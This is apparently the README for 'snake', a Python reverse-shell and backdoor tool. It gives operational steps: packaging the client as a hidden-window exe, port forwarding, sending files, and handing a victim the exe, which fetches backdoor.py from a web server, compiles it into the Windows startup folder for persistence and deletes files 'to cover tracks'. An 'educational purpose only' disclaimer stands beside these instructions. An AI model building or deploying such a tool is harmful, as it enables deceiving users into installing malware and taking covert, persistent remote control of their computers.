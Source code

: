 ![](http://myspecialsite.host20.uk/Icon%20image.png)
***
# Overview
This is a hacking tool to get a reverse shell.

This is tool is for educational purpose only!

The responsibility on every use of this tool is on the user only!

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 
***
## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules
***
## How to use
Make sure that you have port forwarding on port 42424 (you can change it if you want) to your computer.
Also make sure that you enable the port on your local firewall (inbound and outbound)
***
## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
***
## Convert client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.
 ***
## Using the tool
Start **server.py** using the following command:
`python3 server.py`
and wait for connection.

To see of all your connections type `snake> list` in the interactive prompt.

To send commands to one of your connections type `select` and the ID number of the connection.

E.X.:

`snake> select 0`

When you are in the reverse shell of one of your connection, you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
***
## Sending files
To send files to a client type in the interative prompt the following command
`send`

Then you'll get a list of all connection, select a connection by its number on the left side of connections table.
after that you can choose between entering the path manually or by a file dialog, notice that the file dialog will create another window (Thats how tkinter file dialog works) don't close it or else you'll get some errors!
***
# Backdoor
If you want to plant also a backdoor give the user an exe version of the **client.py** from the folder **"Multi client and backdoor"**.

Upload the file **backdoor.py** to a server that you do a GET request to and change the address in **client.py** from 
`request = requests.get("http://webserver.com/backdoor.py")` to
`request = requests.get("%YOUR WEB SERVER ADDRESS%")`

Make sure that the target computer have python 3 installed and pip or else the backdoor won't be installed.
## how the backdoor works
When the user open the program (exe version of **client.py**) the program will have 3 processes:
* The main process - The GUI
* The commands process - connects to the server and executes commands
* The backdoor process - get the code from the webserver and creates an exe version of it and saves it the startup folder (only from Windows machines for now)
What the backdoor process is exactly doing is, it saves the code from the webserver and saves on a file names **temp.py** (the file will be automatically removed), then a the process executes a pyinstaller command which creates an exe version of the backdoor in the startup folder which will make start automatically every time the machine starts and removes all unnecessary folders and files to cover tracks.

To change the name of the backdoor file find this line:
`name = "backdoor"  # Here you can change the name of the backdoor app` 
and change the value to the name you want
***
## Collaboration
If you want to collaborate with me about this project or about any other project, contact me on **ofer026@gmail.com**
